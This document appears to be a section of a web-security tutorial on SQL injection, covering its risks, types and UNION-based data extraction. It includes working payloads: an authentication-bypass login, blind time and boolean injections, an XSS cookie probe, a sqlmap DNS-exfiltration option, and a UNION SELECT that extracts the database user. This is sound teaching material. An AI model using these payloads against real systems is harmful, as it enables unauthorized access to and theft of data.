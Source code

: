 #### 2.1. SQL injection

SQL injection occurs when malicious user input breaks the original SQL statement to inject 
arbitrary SQL code and manipulate the DBMS. This typically happens when untrusted user-input 
is concatenated (at application layer) with the SQL queries to be executed on the database-server.

When exploited successful, it allows unauthorized retrieval of potentially sensitive data:

- national (GOV domain) databases got leaked in the past using this technique
- one of oldest attacks that still persists nowadays o_O
- users might get their credit-card data/national ID compromised 
- data can be stolen for monetary purposes (dump DB, corrupt DB, ask for money to provide original records)


#### 2.2. Risk and impact

From a business perspective:

- impact is typically – HIGH (can lead to RCE in some edge cases)
- data loss, data corruption (pray BTC for backups; may lead to denial of service)
- once data was tampered with you cannot rely on it anymore (integrity is compromised)
- companies will suffer massively when their assets are vanished 
- sometimes they even go bank-robbed
- can lead to reflected XSS via error message: `/edit.php?id=1'<script>alert(document.cookie)</script>`

#### 2.3. Example - intended functionality

Example of POST request for user authentication:

```json
{
   "username" : "peter",
   "password" : "Wj*Fn*7krIS_MGO"
}
```

The MySQL query looks like:

```sql
SELECT * FROM users WHERE username='peter' AND password=hash('Wj*Fn*7krIS_MGO');
```


#### 2.4. Example - SQL injection

Example of POST request for user authentication:

```json
{
   "username" : "admin' AND 1=1-- -",
   "password" : "123"
}
```

The MySQL query looks like:

```sql
SELECT * FROM users WHERE username='admin' AND 1=1-- -' AND password=hash('123');
```
!! This is classic authentication bypass !! :)

Note:

- the SQL meta-character `'` forces the closing of the original query
- continuation of valid but unintended SQL query `AND 1=1`
- followed by MySQL comment `-- -` that tells DBMS to ignore the rest of the original query


#### 2.5. SQL injection types


1. Classic - easy to exploit, uses the same DB communication channel:
  - error-based: attacker relies on DBMS errors to extract data
  - union-based: uses UNION SELECT to combine extraction of DB results

2. Blind – attacker monitors view states according to malicious input:
  - time based: 
    - `page.php?id=3' AND sleep(5)-- -` (will delay HTTP response with 5+ seconds)

  - boolean based - attacker tries different payloads until output changes:
    - `page.php?id=-3' OR 1=1-- -` (evaluated as `true`)
    - `page.php?id=3' AND 1=2-- -` (evaluated as `false`)

  - arithmetic:
    - `page.php?id=3` returns same as `page.php?id=4-1`
    - `+` should always be URL encoded `%2b` - otherwise it means `[SPACE]` in the HTML request

3. Out-of-channel (data cannot be leaked through the same HTTP/application channel - SSRF like):
   - read/write file
   - DNS channel `sqlmap ... --dns-domain opendns.online`
   - FTP/email


#### 2.6. SQL injection - `UNION` based exfiltration

In SQL injection attacks, `UNION SELECT` & `ORDER BY` statements can be used to find the column index that exfiltrates data.

a) `SELECT ... FROM ... ORDER BY 3` - find the correct number of columns
b) `SELECT ... FROM ... UNION SELECT 1,2,3` - look for one (or more) of the column numbers to show up on the page

Note: if no. `2` appears in the response, the second column can be used for retrieval of data.

Also, at first we don't know what the original SQL select statement is, but we can iterate by:
```
UNION SELECT 1
UNION SELECT 1,2  
UNION SELECT 1,2,3 ...
GROUP BY 1
GROUP BY 2
GROUP BY 3
```
Both techniques can be used in SQLi to determine the number of columns for a valid `UNION SELECT`.

Concrete example:
```
http://example.com/index.php?s=1&l1=-572 UNION SELECT 1,2,3,4,5,6,7,8,9,(CURRENT_USER()),11,12,13,14,15,16,
17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,
54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,
91,92,93,94,95-- -
```
In this example, column no. `10` (gets displayed in the HTTP response) was used to exfiltrate the 
database user of the web application.

